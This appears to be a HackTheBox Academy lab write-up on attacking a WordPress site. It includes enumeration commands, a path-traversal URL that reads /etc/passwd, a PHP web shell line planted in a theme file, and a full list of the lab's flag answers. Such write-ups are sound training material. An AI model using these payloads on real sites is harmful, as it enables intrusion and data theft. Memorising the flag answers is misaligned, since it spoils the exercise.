**Platform:**  HackTheBox Academy
**Category:**  Hacking WordPress
**Difficulty:**  Easy
**Date:** 2026-11-09  
**Tags:** htb academy, hacking wordpress

---

## Reconnaissance

1. Identify the WordPress version number.

Before doing anything, add in /etc/hosts the ip and the name of the target which is `blog.inlanefreight.local` for dns to resolve it, I've found the actual target which was `blog.inlanefreight.local` after entering the given ip in the browser which led me to a page and viewing that page source. After all this, open the source page of the target and search for the `meta` tag, it will give us the wordpress version




2. Identify the WordPress theme in use.

Remember that themes are placed in `wp-content`



3. Submit the contents of the flag file in the directory with directory listing enabled.

```bash
ffuf -u http://blog.inlanefreight.local/wp-content/FUZZ \  
    -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

After fuzzing in order to see which directories have listing enabled, we can see the following:



After checking each available directory, we can see the flag is hidden in `uploads`



4.  Identify the only non-admin WordPress user. (Format: first-name last-name)

For this we will simply use `wpscan`

```bash
wpscan --url http://blog.inlanefreight.local --enumerate u
```



5. Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.

Again we use `wpscan` to find vulnerable plugins first. Out of the 5 plugins that were found vulnerable only `email-subscriber` can do what we need: unauthenticated file download. This was found after reviewing each plugin available cve's



Viewing the PoC of this CVE is pretty straightforward



If we curl for our target we should obtain the answer



6. What is the version number of the plugin vulnerable to an LFI?

Again, look into `wpscan` output, we can directly search for LFI



7. Use the LFI to identify a system user whose name starts with the letter "f".

We are going to use the CVE of `site-editor`, viewing the PoC for this vulnerability we can see the following:



We can absolute path traversal via `ajax_path` parameter of `editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php`, we can either curl or simply use browser for this



```
http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

8. Obtain a shell on the system and submit the contents of the flag in the /home/erika directory.

First we need this account password, lets bruteforce 



After we've found erika's password, login to the admin page, choose a theme that is not used anymore and add a simple php line:

```php
system($_GET['cmd']);
```

This will enable us to obtain RCE trough `cmd` parameter on that theme



I've modified the `404.php` and now trough the `cmd` parameter I can RCE, dont forget to update file for the theme before trying anything otherwise it wont work



```
http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat%20/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt
```

If the filename of the `.txt` file is different, first do `ls /home/erika`, find the name and `cat` 
## Flag / Root

1. `5.1.6`
2. `twentynineteen
3. `HTB{d1sabl3_d1r3ct0ry_l1st1ng!}`
4. `Charlie Wiggins`
5. `HTB{unauTh_d0wn10ad!}`
6. `1.1.1`
7. `frank.mclane`
8. `HTB{w0rdPr355_4SS3ssm3n7}`

